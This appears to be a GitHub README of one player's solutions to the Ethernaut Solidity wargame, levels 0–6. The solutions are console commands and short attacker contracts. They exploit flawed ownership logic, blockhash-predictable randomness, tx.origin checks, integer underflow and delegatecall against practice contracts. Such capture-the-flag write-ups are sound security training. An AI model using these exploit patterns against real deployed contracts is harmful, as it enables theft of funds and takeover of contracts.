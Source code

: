 # Ethernaut

The Ethernaut is a Web3/Solidity based wargame inspired on overthewire.org, played in the Ethereum Virtual Machine. Each level is a smart contract that needs to be 'hacked'.
Here are my solutions for each level.

## 0.Hello Ethernaut

```
> contract.info()
< [[PromiseResult]]: "You will find what you need in info1()."

> contract.info1()
< [[PromiseResult]]: "Try info2(), but with \"hello\" as a parameter."

> contract.info2("hello")
< [[PromiseResult]]: "The property infoNum holds the number of the next info method to call."

> contract.abi

> let x = await contract.infoNum()

> x.toString()
< '42'

> contract.info42()
< [[PromiseResult]]: "theMethodName is the name of the next method."

> contract.theMethodName()
< [[PromiseResult]]: "The method name is method7123949."

> contract.method7123949()
< [[PromiseResult]]: "If you know the password, submit it to authenticate()."

> contract.password()
< [[PromiseResult]]: "ethernaut0"

> contract.authenticate("ethernaut0")
```

Submit the instance by clicking the orange button.

```(-(-_(-_-)_-)-) Well done, You have completed this level!!!```

## 1. Fallback
```
> contract.contribute({value:toWei("0.0001", "ether")})

> web3.eth.sendTransaction({to:"0x3D585bb9145ca9101D5EdA79E138D854242FF90C", 
	value:toWei("0.0001", "ether"), from:"0x76F2CCD13DB4D70DFB2114704BD9d4d6326bafA0"})
	
> contract.owner()
< [[PromiseResult]]: "0x76F2CCD13DB4D70DFB2114704BD9d4d6326bafA0"

> contract.withdraw()

> getBalance("0x3D585bb9145ca9101D5EdA79E138D854242FF90C")
< [[PromiseResult]]: "0"
```

Submit the instance by clicking the orange button.

```\,,/(◣_◢)\,,/ Well done, You have completed this level!!!```

## 2. Fallout
```
> contract.Fal1out()
```
Submit Instance

```☜Ҩ.¬_¬.Ҩ☞ Well done, You have completed this level!!!```

## 3. CoinFLip

```
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.0;

import "./CoinFlip.sol";
import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/math/SafeMath.sol";

contract Win {
    
    using SafeMath for uint256;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    CoinFlip public coinflip;
    constructor(address conFlipAddress) public {
        coinflip = CoinFlip(conFlipAddress);
    }
    // address public coinflip_add = 0x0Fd8F81a893762013486d74b6b61fA0704d07D4b;
    
    function _guess() public {
        uint256 blockValue = uint256(blockhash(block.number.sub(1)));
        uint256 coinFlip = blockValue.div(FACTOR);
        bool side = coinFlip == 1 ? true : false;
        coinflip.flip(side);
    }
}
```
Copy the Coin Flip contract into CoinFlip.sol and deploy win.sol. Call _guess() 10 times.

> contract.consecutiveWins()

## 4. Telephone 
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./Telephone.sol";

contract Hack {
    Telephone public tele;

    constructor(address tele_add) public {
        tele = Telephone(tele_add);
    }

    function change_owner(address _owner) public {
        tele.changeOwner(_owner);
    }
}

```
```
ʕ•̫͡•ʕ*̫͡*ʕ•͓͡•ʔ-̫͡-ʕ•̫͡•ʔ*̫͡*ʔ-̫͡-ʔ Well done, You have completed this level!!!
```

## 5. Token

> contract.transfer("Instance address",21)

Submit the instance 
```
٩(- ̮̮̃-̃)۶ Well done, You have completed this level!!!
```

## 6. Delegation
```
> await web3.eth.abi.encodeFunctionSignature("pwn()")
< '0xdd365b8b'

> await web3.eth.sendTransaction({from:"0x76F2CCD13DB4D70DFB2114704BD9d4d6326bafA0",
 data:"0xdd365b8b", to:"0xD59491bF35887E4A36Fb197EB5739A02f03d4516"})
 
```
Submit instance 
``` ✌(◕‿-)✌ Well done, You have completed this level!!! ```







